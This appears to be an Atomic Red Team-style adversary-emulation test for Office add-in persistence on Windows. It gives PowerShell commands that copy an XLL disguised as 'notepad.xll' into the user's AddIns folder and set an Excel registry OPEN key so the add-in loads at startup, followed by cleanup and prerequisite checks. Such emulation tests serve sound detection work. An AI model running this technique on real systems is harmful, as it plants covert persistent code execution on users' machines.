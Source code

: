 **Supported Platforms:** Windows

**auto_generated_guid:** 9c307886-9fef-41d5-b344-073a0f5b2f5f

#### Attack Commands: Run with `powershell`!

```powershell
$excelApp = New-Object -COMObject "Excel.Application"
if(-not $excelApp.path.contains("Program Files (x86)")){
    Write-Host "64-bit Office"
    Copy "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x64.xll" "$env:APPDATA\Microsoft\AddIns\notepad.xll"
}
else{
  Write-Host "32-bit Office"
  Copy "PathToAtomicsFolder\T1137.006\bin\Addins\excelxll_x86.xll" "$env:APPDATA\Microsoft\AddIns\notepad.xll"
}
$ver = $excelApp.version
$ExcelRegPath="HKCU:\Software\Microsoft\Office\$Ver\Excel\Options"
Remove-Item $ExcelRegPath -ErrorAction Ignore
New-Item -type Directory $ExcelRegPath | Out-Null
New-ItemProperty $ExcelRegPath OPEN -value "/R notepad.xll" -propertyType string | Out-Null
$excelApp.Quit()
Start-Process "Excel"
```

#### Cleanup Commands:

```powershell
$ver = (New-Object -COMObject "Excel.Application").version
Remove-Item "HKCU:\Software\Microsoft\Office\$Ver\Excel\Options" -ErrorAction Ignore
Stop-Process -Name "notepad","Excel" -ErrorAction Ignore
Start-Sleep 3
Remove-Item "$env:APPDATA\Microsoft\AddIns\notepad.xll" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft Excel must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```
